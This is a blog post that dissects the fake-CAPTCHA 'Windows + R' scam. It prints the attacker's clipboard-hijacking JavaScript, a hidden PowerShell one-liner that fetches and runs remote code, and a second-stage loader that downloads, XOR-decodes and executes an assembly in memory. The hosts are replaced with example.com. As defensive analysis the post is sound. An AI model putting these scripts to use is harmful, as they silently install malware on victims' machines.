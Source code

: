 +++
title = "How does the Windows + R scam work"
date = 2024-10-29T06:57:18+08:00

[taxonomies]
tags = ["CAPTCHA", "PowerShell", "Security", "Windows"]
+++

You might have heard of the new scam about the [CAPTCHA] which asks you use Windows + R to verify that you are human.
It gives you a popup and introduces a verification step with `Windows + R` and `Ctrl + V` then press `Enter`.
You probably already know how it works, but let's take a closer look at their code this time.

<!-- more -->

Usually we see these scams from websites like [GitHub], [Reddit], etc.
They are usually disguised as normal comments, such as this below:

> Maybe this solution will solve your problem click this link: ...

They provide you with a link a and when you open it, you will find that the page requires a CAPTCHA verfication.
When you click this CPATCHA button, a window will pop up on the page and ask you to use a set of key combinations to complete the verification.
Like this:

> Verification Steps:\
> 1 - Press Windows + R\
> 2 - Press Ctrl + V\
> 3 - Press Enter

If you follow the steps they provide, you will fall into their trap.

### What happened during this process?

Let's look directly at their code to see what is executed during the process.

First, let's use [cURL] to obtain the source code of the target URL. I'm using an [example domain] here in case you enter the trap by accident.

```bash
curl https://example.com/captcha.html
```

Let's take a look at the key codes in the obtained content:

```js
function open_modal() {
  var copyText =
    "powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()";
  var textarea = document.createElement("textarea");
  textarea.value = copyText;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  setTimeout(() => {
    document.querySelector("#modal").classList.remove("hidden");
  }, 2000);
}
```

It creates a phishing modal and uses [execCommand("copy")] to secretly copy a command to your clipboard. Let's see what the command does:

```powershell
powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()
```

- `irm` is an alias of the [Invoke-RestMethod] command of [PowerShell]. This is used to send an HTTP or HTTPS request to a RESTful web service.
- [\[ScriptBlock\]::Create] creates a script block based on a script to be parsed when execution contenxt is provide.
- [-WindowStyle Hidden] sets the window style for the session to hidden.

Now let's move to the `https://example.com/scam` to see its content:

```bash
curl https://example.com/scam
```

```powershell
$url = "https://example.com/binary"
$webClient = New-Object System.Net.WebClient
$sell61 = $webClient.DownloadData($url)
$gossip123 = 0x09, 0x04, 0x05
$struggle6 = [byte[]]::new($sell61.Length)

for ($i = 0; $i -lt $sell61.Length; $i++) {
  $struggle6[$i] = $sell61[$i] -bxor $gossip123[$i % $gossip123.Length]
}

$afraid16 = [System.AppDomain]::CurrentDomain.Load($struggle6)

if ($afraid16.EntryPoint -ne $null) {
  $afraid16.EntryPoint.Invoke($null, @($null))
} else {
  Write-Host "glass glimpse glue gloom"
}
```

- [New-Object System.Net.WebClient] provides a common methods for sending data to and receiving data from a resource identified by a URI.
- `-bxor` is an [arithmetic operator] for bitwise XOR calculation. In this for-loop it should be a deobfuscation process.
- [\[Sytem.AppDomain\]::CurrentDomain.Load] loads an [Assembly] into the specific domain.

Then they cando whatever they want with your operating system through the implanted application.

### Why is the phishing method so effective?

Effective phishing methods are often easy to operate and can catch you without you realizing it.
Just like CAPTCHA, the various verification methods now make people lose their vigilancem, and some people lack basic computer knowledge and fall into this trap.

On the other hand, due to the rise of smartphones and tablets, some people have become computer illiterate, especially the kids.
As the [Discord post from r/Teachers] mentioned, more and more students don't know how to use computers.
People use their laptops only for schoolwork, and that's really about all you can do with it since the OS is so limited/sandboxed.

These factors combined make this phishing attack method such effective.

### Links

- [Assembly]
- [CAPTCHA]
- [Discord post from r/Teachers]
- [GitHub]
- [Invoke-RestMethod]
- [New-Object System.Net.WebClient]
- [PowerShell]
- [Reddit]
- [cURL]
- [arithmetic operator]
- [example domain]
- [execCommand("Copy")]
- [-WindowStyle Hidden]
- [\[ScriptBlock\]::Create]
- [\[Sytem.AppDomain\]::CurrentDomain.Load]

[Assembly]: https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly
[CAPTCHA]: https://en.wikipedia.org/wiki/CAPTCHA
[Discord post from r/Teachers]: https://www.reddit.com/r/Teachers/comments/xuxbo9/why_dont_they_know_how_to_use_computers/
[GitHub]: https://github.com
[Invoke-RestMethod]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-restmethod
[New-Object System.Net.WebClient]: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Reddit]: https://www.reddit.com
[arithmetic operator]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators
[cURL]: https://curl.se
[example domain]: https://www.iana.org/help/example-domains
[execCommand("Copy")]: https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand
[-WindowStyle Hidden]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pwsh#-windowstyle---w
[\[ScriptBlock\]::Create]: https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.scriptblock.create
[\[Sytem.AppDomain\]::CurrentDomain.Load]: https://learn.microsoft.com/en-us/dotnet/api/system.appdomain.load
